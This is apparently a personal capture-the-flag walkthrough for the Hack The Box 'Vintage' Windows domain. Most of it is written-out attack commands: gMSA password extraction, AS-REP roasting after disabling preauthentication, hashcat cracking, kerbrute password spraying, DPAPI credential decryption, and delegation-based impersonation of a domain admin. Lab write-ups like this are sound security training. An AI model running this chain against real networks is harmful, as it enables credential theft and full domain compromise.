



**NOTES:**

VPN 10.10.11.42

**Machine Information**

As is common in Windows pentests, you will start the Certified box with
credentials for the following account: **Username: P.Rosa Password:
Rosaisbest123**

**1**. Add **vintage.htb** to **/etc/hosts** file

**RUN:** **sudo nano /etc/hosts**

**2. MORE COMPREHENSIVE Nmap scan (Port 5985 = WinRM remote login)**

**RUN: sudo nmap -Pn -p- \--min-rate 2000 -sC -sV -oN nmap-scan.txt
administrator.htb**

Found **LDAP SERVER: PORT 3268**

Found **Kerberos service**

Found **WinRM service: PORT 5985**

**It is found that in the line of port 3269, there is a DOMAIN
CONTROLLER: DC01**

**2.1** Add **DC01.vintage.htb** and **vintage.htb** to **/etc/hosts**

**3. LDAP query**

**RUN: ldapsearch -x -H ldap://10.10.11.45 -D \"P.Rosa@vintage.htb\" -w
\"Rosaisbest123\" -b \"DC=vintage,DC=htb\" \"(objectClass=user)\"
sAMAccountName memberOf**

**INFO:** In the screenshots above are **CN=ServiceManagers
entries** e.g. L.Bianchi User. Search in **Bloodhound GUI** for
**ServiceManagers group**. You see that **GMSA01\$ User has AddSelf
right** **to ServiceManagers group**

FOUND COMPUTER FS01.vintage.htb in screenshots above

- Add **10.10.11.45 FS01.vintage.htb** to **/etc/hosts**

**Bloodhound**

**4.Start Bloodhound**

**RUN: sudo neo4j console (This starts the service)**

**-Start Bloodhound GUI**

**RUN: bloodhound-python -u P.Rosa -p \'Rosaisbest123\' -c All -d
vintage.htb -ns 10.10.11.45**

**ERROR -\> WARNING: Could not resolve: FS01.vintage.htb: The
resolution lifetime expired after 3.104 seconds: Server
Do53:10.10.11.45@53 answered The DNS operation timed out.**

**Ignore it and go to next STEP**

**5. Import** previously downloaded **JSON-files into Bloodhound GUI**

**6.** Analyzed data: **Bianchi is member of admin group and has admin
privileges**

**7.** Look for **CN=Managed Service Accounts. FOUND gMSA01**

**- Analyzed data: User gMSA01 has GenericWrite to
ServiceManagers@Vintage.htb. Can AddSelf to ServiceManagers@Vintage.htb
(Administrators Group)**

**8. Check Intra-Domain relations. SEE INBOUND CONTROL RIGHTS of
<gMSA01$@vintage.htb>**

**- FS01.vintage.htb** can **read PASSWORD from gMSA01\$@vintage.htb.
Then gMSA01\$@vintage.htb can add itself to Administrator group**

**///-USER-//////////////////////////////////////////////////////////////////////////////////////**

**U1.**

INFO: Use GetTGT.py: provide password, hash or aeskey to request TGT and
save it in ccache format

**RUN: impacket-getTGT -dc-ip 10.10.11.45 vintage.htb/FS01\$:fs01**

**U2.**

INFO: Set the environment variable KRB5CCNAME=FS01\\\$.ccache to specify
the cache file that the Kerberos client should use.

**RUN: export KRB5CCNAME=FS01\\\$.ccache**

**U3. NTLM HASH**

**INFO:** Use bloodyAD to interact with Active Directory, through
Kerberos authentication,

to obtain the password (stored in the attribute) msDS-ManagedPassword of
the managed service account named GMSA01\$ from the specified Active
Directory domain controller

**RUN: bloodyAD \--host dc01.vintage.htb -d \"VINTAGE.HTB\" \--dc-ip
10.10.11.45 -k get object \'GMSA01\$\' \--attr msDS-ManagedPassword**

**U4.**

INFO: Attempt to obtain a Kerberos ticket from the Active Directory
domain controller using the known GMSA account hash from STEP U3

**RUN: impacket-getTGT vintage.htb/GMSA01\$ -hashes
aad3b435b51404eeaad3b435b51404ee:b3a15bbdfb1c53238d4b50ea2c4d1178**

**RUN: export KRB5CCNAME=GMSA01\\\$.ccache**

**U5.**

INFO: Then add P.Rosa to SERVICEMANAGERS, use GMSA\'s credentials, and
then generate your own credentials

**RUN: bloodyAD \--host dc01.vintage.htb -d \"VINTAGE.HTB\" \--dc-ip
10.10.11.45 -k add groupMember \"SERVICEMANAGERS\" \"P.Rosa\"**

**U5.1.**

INFO: Sets a new PASSWORD. Command creates P.Rosa.ccache file.

**RUN: impacket-getTGT vintage.htb/P.Rosa:Rosaisbest123 -dc-ip
dc01.vintage.htb**

**U5.2.**

**INFO:**

**RUN: export KRB5CCNAME=P.Rosa.ccache**

**U6.**

**INFO: Try to use this Ticket to list users who do not need KERBEROS
DOMAIN AUTHENTICATION. First generate a USERNAME LIST of users in
Domain.**

**RUN: ldapsearch -x -H ldap://10.10.11.45 -D \"P.Rosa@vintage.htb\" -w
\"Rosaisbest123\" -b \"DC=vintage,DC=htb\" \"(objectClass=user)\"
sAMAccountName \| grep \"sAMAccountName:\" \| cut -d \" \" -f 2 \>
usernames.txt**

**U6.1.**

**INFO: List Users who don\'t need KERBEROS DOMAIN AUTHENTICATION**

**RUN: impacket-GetNPUsers -dc-ip 10.10.11.45 -request -usersfile
usernames.txt vintage.htb/**

**U6.2.**

INFO: Disable PREAUTHENTICATION

**RUN: bloodyAD \--host dc01.vintage.htb -d \"VINTAGE.HTB\" \--dc-ip
10.10.11.45 -k add uac SVC_ARK -f DONT_REQ_PREAUTH**

**RUN: bloodyAD \--host dc01.vintage.htb -d \"VINTAGE.HTB\" \--dc-ip
10.10.11.45 -k add uac SVC_LDAP -f DONT_REQ_PREAUTH**

**RUN: bloodyAD \--host dc01.vintage.htb -d \"VINTAGE.HTB\" \--dc-ip
10.10.11.45 -k add uac SVC_SQL -f DONT_REQ_PREAUTH**

**U6.3.**

INFO: Enable Account

**RUN: bloodyAD \--host dc01.vintage.htb -d \"VINTAGE.HTB\" \--dc-ip
10.10.11.45 -k remove uac SVC_ARK -f ACCOUNTDISABLE**

**RUN: bloodyAD \--host dc01.vintage.htb -d \"VINTAGE.HTB\" \--dc-ip
10.10.11.45 -k remove uac SVC_LDAP -f ACCOUNTDISABLE**

**RUN: bloodyAD \--host dc01.vintage.htb -d \"VINTAGE.HTB\" \--dc-ip
10.10.11.45 -k remove uac SVC_SQL -f ACCOUNTDISABLE**

**-Repeating\--STEP\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\--**

**U6.4.**

INFO: Check DOMAIN USER again, as in STEP U6.1

**RUN: impacket-GetNPUsers -dc-ip 10.10.11.45 -request -usersfile
usernames.txt vintage.htb/**

**U7.**

INFO: CRACK HASH of svc_sql -\> SVC_SQL password: Zer0the0ne

**RUN: hashcat -a 0 -m 18200 hash.txt /home/kali/Desktop/rockyou.txt
--show**

**U8.**

INFO: **PASSWORD SPARYING**. Blast User with KERBRUTE

Kerbrute is a tool specifically designed for **attacking and enumerating
information** related to the **Kerberos authentication protocol**.

**RUN: kerbrute \--dc vintage.htb -d vintage.htb -v passwordspray
usernames.txt Zer0the0ne**

**U9.**

INFO: See User: C.Neri relations in Bloodhound overview

**U10.**

INFO: Requests TGT for User: C.Neri. FILE c.neri.ccache has been created

**RUN: impacket-getTGT vintage.htb/c.neri:Zer0the0ne -dc-ip
vintage.htb**

**RUN: export KRB5CCNAME=c.neri.ccache**

**-Get user.txt\-\--**

**U11.**

INFO: Login remotely with WinRM. IF ERROR OCCURS, check the resolv.conf
file!!

**RUN: evil-winrm -i dc01.vintage.htb -r vintage.htb**

**///-ROOT-//////////////////////////////////////////////////////////////////////////////////////**

**R1.**

INFO:

**RUN: whoami /user**

**R2.**

INFO:

**RUN: whoami /priv**

**DEPAPI is here in documentary**

**R3.**

INFO: Use DPAPI to obtain WINDOWS IDENTITY CREDENTIALS

**RUN: cd C:\\Users\\C.Neri\\AppData\\Roaming\\Microsoft\\Credentials**

**RUN: dir -h (lists files and folders in WINDOWS)**

**RUN: download C4BB96844A5C9DD45D5B6A9859252BA6**

**E.G. Error**: **malloc_consolidate(): unaligned fastbin chunk
detected**

**SOLUTION:** Relogin and repeat the STEP if such an ERROR occurs

**E.G. Win-RM Login Error**: **An erro of type GSSAPI::GsApiError
happened, message is gss_init_sec_context did not return GSS_S_COMPLETE:
No credentials were supplied, or the credentials were unavailable or
inaccessible. No Kerberos credentials available (default cache:
FILE:/tmp/krb5cc_1000)**

**SOLUTION:** Edit /etc/resolv.conf like this

**modded**

**ORIGINAL**

**R4.**

INFO:

**RUN: cd
C:\\Users\\C.Neri\\AppData\\Roaming\\Microsoft\\Protect\\S-1-5-21-4024337825-2033394866-2055507597-1115**

**RUN: dir -h (lists files and folders in WINDOWS)**

**RUN: download 99cf41a3-a552-4cf7-a8d7-aca2d6f7339b**

**R5.**

INFO: Enter the decription

**RUN: impacket-dpapi masterkey -file
99cf41a3-a552-4cf7-a8d7-aca2d6f7339b -sid
S-1-5-21-4024337825-2033394866-2055507597-1115 -password Zer0the0ne**

**R6.**

INFO:

**RUN: impacket-dpapi credential -file C4BB96844A5C9DD45D5B6A9859252BA6
-key
0xf8901b2125dd10209da9f66562df2e68e89a48cd0278b48a37f510df01418e68b283c61707f3935662443d81c0d352f1bc8055523bf65b2d763191ecd44e525a**

**IT SHOULD RESULT LIKE THIS: The password of c.neri_adm is:
Uncr4ck4bl3P4ssW0rd0312**

**R7.**

INFO: The next step is to add C.NERI_ADM to DELEGATEDADMINS (c.neri ??)

**SVC_SQL added to DELEGATEDADMINS**

**RUN: bloodyAD \--host dc01.vintage.htb \--dc-ip 10.10.11.45 -d
\"VINTAGE.HTB\" -u c.neri_adm -p \'Uncr4ck4bl3P4ssW0rd0312\' -k add
groupMember \"DELEGATEDADMINS\" \"SVC_SQL\"**

**IMPORTANT! Both commands R7.1.+R7.2. below, have to be set fast,
otherwise impacket-getTGT won\'t work in STEP R8 !**

**R7.1. WORKED**

INFO: SVC_SQL's SPN (ServicePrincipalName) has been updated to
"cifs/fake"

**RUN: bloodyAD \--host dc01.vintage.htb -d \"VINTAGE.HTB\" \--dc-ip
10.10.11.45 -u c.neri -p \"Zer0the0ne\" -k set object \"SVC_SQL\"
servicePrincipalName -v \"cifs/fake\"**

**R7.2. WORKED**

**RUN: Set-ADUser -Identity svc_sql -Enabled \$true**

(Run that on Target Server in POWERSHELL REMOTE SESSION)

**R7.3.**

INFO: This command doublechecks if the previous 2 were set correctly

**RUN: Get-ADUser -Identity svc_sql -Properties ServicePrincipalNames**

(Run that on Target Server in POWERSHELL REMOTE SESSION)

**Result should look like this**

**In this example, Enabled is Flase. Solution: Run the command from
screenshot above to active it.**

**R8.**

INFO: Get the ticket for this SVC

**RUN: impacket-getTGT vintage.htb/svc_sql:Zer0the0ne -dc-ip
dc01.vintage.htb**

**RUN: export KRB5CCNAME=svc_sql.ccache**

**R9.**

INFO: Impersonate L.BIANCHI_ADM user to **request cifs/dc01.vintage.htba
service ticket** for the service. After successfully obtaining the
ticket, you can use it to access the service.

**RUN: impacket-getST -spn \'cifs/dc01.vintage.htb\' -impersonate
L.BIANCHI_ADM -dc-ip 10.10.11.45 -k \'vintage.htb/svc_sql:Zer0the0ne\'**

**E.G. ERROR in R9.**

**If an Error occurs in R9. do this RUN**

**RUN: bloodyAD \--host dc01.vintage.htb -d \"VINTAGE.HTB\" \--dc-ip
10.10.11.45 -u c.neri_adm -p \"Uncr4ck4bl3P4ssW0rd0312\" -k add
groupMember \"DELEGATEDADMINS\" \"SVC_SQL\"**

**RERUN R8 commands (get the ticket for this SVC)**

**RUN: impacket-getTGT vintage.htb/svc_sql:Zer0the0ne -dc-ip
dc01.vintage.htb**

**RUN: export KRB5CCNAME=svc_sql.ccache**

**R9.1.**

INFO: RERUN R9 commands

**RUN: impacket-getST -spn \'cifs/dc01.vintage.htb\' -impersonate
L.BIANCHI_ADM -dc-ip 10.10.11.45 -k \'vintage.htb/svc_sql:Zer0the0ne\'**

**R9.2.**

**RUN: export
KRB5CCNAME=L.BIANCHI_ADM@cifs_dc01.vintage.htb@VINTAGE.HTB.ccache**

**R10. Root.txt**

INFO: Now that we have the ticket for L.BIANCHI, we can directly execute
the command through wmiexec

**RUN: impacket-wmiexec -k -no-pass
VINTAGE.HTB/L.BIANCHI_ADM@dc01.vintage.htb**

